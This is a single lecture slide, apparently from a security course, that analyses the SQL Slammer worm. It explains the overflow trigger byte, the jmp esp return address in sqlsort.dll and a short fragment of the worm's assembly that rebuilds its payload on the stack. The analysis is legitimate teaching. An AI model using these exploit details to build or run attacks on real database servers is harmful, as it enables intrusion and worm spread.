

# Slammer Worm Insides
If buffer overflow is successful (first byte ‘0x04’)
Puts 42B0C9DC on the stack as a return address. This address is in sqlsort.dll and contains the command jmp esp, which jumps BACK to the attack code
After overflow, before jumping to code, payload is corrupted, so code rebuilds its buffer
       mov   eax, 1010101h
       xor   ecx, ecx
       mov   cl, 18h
FIXUP:
       Push  eax           ; [EBP-8 to EBP-60h]
       loop FIXUP
       xor eax, 5010101h
       push eax            ; [EBP-64h]